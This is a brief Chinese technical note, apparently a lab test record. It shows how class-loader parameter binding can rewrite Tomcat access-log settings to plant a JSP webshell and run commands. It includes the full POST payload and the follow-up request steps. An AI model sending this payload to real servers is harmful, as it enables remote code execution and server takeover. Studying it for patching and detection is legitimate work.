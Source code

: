     目前最新的Tomcat 9.0.62已经将Resouces进行了处理：
    Unused. Always returns null.
    Deprecated This will be removed in Tomcat 10.1.x onwards
    因此调用链将被断掉了
    
    一个测试组合结果（发送POST请求时需要在header处加入Content-Type: application/x-www-form-urlencoded）
    第一次访问进行请求修改“log”位置
    class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25{prefix}i.getRuntime().exec(request.getParameter("cmd"))%3b%25{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.prefix=webinf&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=C:\Opt\Tomcat\apache-tomcat-9.0.60\webapps\webenv17_4war\WEB-INF\jsp
    第二次访问，在header中加入prefix:<%Runtime   suffix:%>，构建jsp片段
    第三次访问目标jsp，传递cmd=calc参数，执行验证
    
    
    ```

* 原理是通过修改控制日志对象的一些参数，将日志内容写入到一个文件比如jsp，如果服务器能运行jsp，那么就能造成rce

  

